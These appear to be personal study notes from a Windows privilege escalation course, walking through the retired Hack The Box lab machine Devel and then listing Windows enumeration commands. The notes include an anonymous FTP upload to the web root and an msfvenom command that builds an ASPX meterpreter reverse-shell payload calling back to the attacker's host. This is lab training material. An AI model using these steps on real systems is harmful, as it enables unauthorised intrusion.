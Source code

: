 **(30May23Tue)**

[Windows Privilege Escalation for Beginners | TCM Security, Inc.](https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners)

[Windows Privilege Escalation for Beginners - YouTube](https://youtu.be/uTcrbNBcoxQ)

[FuzzySecurity | Windows Privilege Escalation Fundamentals](https://fuzzysecurity.com/tutorials/16.html)

[PayloadsAllTheThings/Windows - Privilege Escalation.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

[Privilege Escalation - Windows &#xB7; Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)


## Gaining a Foothold

https://app.hackthebox.com/machines/3

**Devel** *(EASY - RETIRED)*

```
sudo nmap -A -T4 -p- 10.129.234.141
```

![[Pasted image 20230530170427.png]]

```
echo "this is a test" > test.txt
```

![[Pasted image 20230530164800.png]]

```
ftp 10.129.234.141
```

*anonymous : anonymous*

```
put test.txt
```

![[Pasted image 20230530170808.png]]

```
http://10.129.234.141/test.txt
```

![[Pasted image 20230530170845.png]]

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > exploit.aspx
```

![[Pasted image 20230530171010.png]]

```
msfconsole -q
```
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```

![[Pasted image 20230530171632.png]]

![[Pasted image 20230530171753.png]]

![[Pasted image 20230530171849.png]]

![[Pasted image 20230530171931.png]]

## Initial Enumeration

### Initial Enumeration *System Enumeration*

```
getuid

sysinfo
```

![[Pasted image 20230530172139.png]]

```
pwd

shell

systeminfo
```

![[Pasted image 20230530172652.png]]

![[Pasted image 20230530172758.png]]

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![[Pasted image 20230530173134.png]]

```
hostname

wmic qfe
```

![[Pasted image 20230530173421.png]]

*WMIC - Windows Management Instrumentation Command*

*qfe - quick-fix engineering*

[Win32_QuickFixEngineering class - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-quickfixengineering?redirectedfrom=MSDN)

![[Screenshot 2023-05-30 175339.png]]

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

![[Screenshot 2023-05-30 180311.png]]

```
wmic logicaldisk
```

![[Screenshot 2023-05-30 181225.png]]

```
wmic logicaldisk get caption,description,providername
```

![[Pasted image 20230530181515.png]]

### Initial Enumeration *User Enumeration*

```
whomi

whoami /priv
```

![[Pasted image 20230530181813.png]]

```
whoami /groups
```

![[Pasted image 20230530182003.png]]

```
net user
```

![[Pasted image 20230530182557.png]]

```
net user babis
```

![[Pasted image 20230530182638.png]]

```
net user Administrator
```

![[Pasted image 20230530182831.png]]

```
net localgroup

net localgroup administrators
```

![[Pasted image 20230530183242.png]]

### Initial Enumeration *Network Enumeration*

```
ipconfig /all
```

![[Pasted image 20230530183606.png]]

```
arp -a
```

![[Pasted image 20230530183757.png]]

```
route print
```

![[Pasted image 20230530184008.png]]

```
netstat -ano
```

![[Pasted image 20230530184353.png]]



### Initial Enumeration *Password Hunting*



